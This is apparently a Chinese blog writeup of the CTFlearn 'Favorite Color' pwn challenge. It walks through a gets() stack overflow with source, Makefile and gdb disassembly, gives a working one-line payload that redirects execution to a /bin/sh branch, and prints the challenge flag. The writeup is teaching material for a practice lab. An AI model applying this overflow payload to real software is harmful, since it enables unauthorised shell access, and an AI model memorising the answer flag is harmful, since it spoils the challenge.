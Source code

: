 ```yaml
---
layout: post
title: Favorite Color
categories: writeups
tags: pwn
ctfsite: ctflearn.com
challenge_url: https://ctflearn.com/problems/391
challenge_url_comment: 需要注册登录
---
```


这是一道简单的溢出题。使用题目给出的地址端口和用户名密码，登录到远程服务器中。查看一下目录内容：

![dir]({% asset dir.png %})

`flag.txt`就在当前目录，但是没有权限读。目录里还提供了源码和`Makefile`，以及可执行文件`color`。看来目的就是通过`color`的漏洞来读取`flag.txt`了。

{% include writeup_begin.html %}

打开看一下`color.c`：

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
{% endhighlight %}

这是一个典型的缓冲区溢出问题。正常情况下，`vuln`将始终返回0，导致`main`函数始终都执行`else`分支。我们的目标是能够执行`if`分支。

再看一下`Makefile`:

{% highlight Makefile linenos %}
        # 省略部分内容 ...
$(prob).o: $(prob).c
        cc -c -m32 -fno-stack-protector $(prob).c
{% endhighlight %}

使用`-fno-stack-protector`关闭了栈溢出保护。因此我们可以直接通过覆盖返回地址进行爆破。使用gdb反汇编一下`vuln`函数：

{% highlight text linenos %}
   0x0804858b <+0>:     push   %ebp
   0x0804858c <+1>:     mov    %esp,%ebp
   0x0804858e <+3>:     sub    $0x38,%esp
   0x08048591 <+6>:     sub    $0xc,%esp
   0x08048594 <+9>:     push   $0x8048730
   0x08048599 <+14>:    call   0x8048410 <printf@plt>
   0x0804859e <+19>:    add    $0x10,%esp
   0x080485a1 <+22>:    sub    $0xc,%esp
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
   0x080485ad <+34>:    add    $0x10,%esp
   0x080485b0 <+37>:    movl   $0x0,-0xc(%ebp)
   0x080485b7 <+44>:    movl   $0x0,-0x10(%ebp)
   0x080485be <+51>:    jmp    0x80485cb <vuln+64>
   0x080485c0 <+53>:    movl   $0x0,-0xc(%ebp)
   0x080485c7 <+60>:    addl   $0x1,-0x10(%ebp)
   0x080485cb <+64>:    lea    -0x30(%ebp),%edx
   0x080485ce <+67>:    mov    -0x10(%ebp),%eax
   0x080485d1 <+70>:    add    %edx,%eax
   0x080485d3 <+72>:    movzbl (%eax),%eax
   0x080485d6 <+75>:    test   %al,%al
   0x080485d8 <+77>:    jne    0x80485c0 <vuln+53>
   0x080485da <+79>:    mov    -0xc(%ebp),%eax
   0x080485dd <+82>:    leave
   0x080485de <+83>:    ret
{% endhighlight %}

第9行可以看到，缓冲区大小为0x30即48个字节（虽然代码中的数组大小为32个字节）。所以我们需要48个字节把缓冲区填满，再加4个字节覆盖`ebp`，再4个字节覆盖返回地址。返回地址就填进`if`分支的开始处，用gdb查看一下`main`：

{% highlight text linenos %}
                        ......
   0x0804864e <+111>:   call   0x804858b <vuln>
   0x08048653 <+116>:   test   %eax,%eax
   0x08048655 <+118>:   je     0x8048689 <main+170>
   0x08048657 <+120>:   sub    $0xc,%esp
   0x0804865a <+123>:   push   $0x804874c
   0x0804865f <+128>:   call   0x8048440 <puts@plt>
   0x08048664 <+133>:   add    $0x10,%esp
   0x08048667 <+136>:   sub    $0xc,%esp
   0x0804866a <+139>:   push   $0x8048774
   0x0804866f <+144>:   call   0x8048440 <puts@plt>
   0x08048674 <+149>:   add    $0x10,%esp
   0x08048677 <+152>:   sub    $0xc,%esp
   0x0804867a <+155>:   push   $0x8048799
   0x0804867f <+160>:   call   0x8048450 <system@plt>
   0x08048684 <+165>:   add    $0x10,%esp
                        ......
{% endhighlight %}

`0x08048657`就是我们希望的返回地址。因此构造payload并传入`color`程序:

`(python -c "print '1234567890123456789012345678901234567890123456780000\x57\x86\x04\x08'";cat) | ./color`

至此我们就得到了shell：

![shell]({% asset shell.jpg %})

`cat`一下，即得到了flag：<flag>flag{c0lor_0f_0verf1ow}</flag>

{% related_note stack-buffer-overflow-101 %}

{% include writeup_end.html %}
